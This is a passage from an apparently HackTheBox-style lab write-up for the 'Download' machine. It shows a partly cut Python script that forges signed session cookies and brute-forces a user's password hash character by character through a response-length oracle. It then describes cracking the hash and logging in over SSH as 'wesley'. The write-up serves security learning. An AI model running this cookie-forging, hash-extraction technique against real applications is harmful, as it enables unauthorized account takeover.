 ```python
	sig = output.split("download_session.sig=")[1]
	sig = sig.split("\x1b")[0]
	return jwt,sig

for i in range(32):
	for c in chars:
		test = password + c
		jwt, sig = generate(test)
		cookie = {"download_session": jwt, "download_session.sig": sig}
		r = requests.get('http://download.htb/home/', cookies=cookie)
		if len(r.text) != 2174:
			print(f"Found char: {c}")
			password += c
			print(password)
			break

print(password)
```

This would slowly print out a hash value:

<figure><img src="../../.gitbook/assets/image (4147).png" alt=""><figcaption></figcaption></figure>

When we get the full hash, we can take it to CrackStation to crack it and then use that same password to `ssh` in as `wesley`!

<figure><img src="../../.gitbook/assets/image (4148).png" alt=""><figcaption></figcaption></figure>
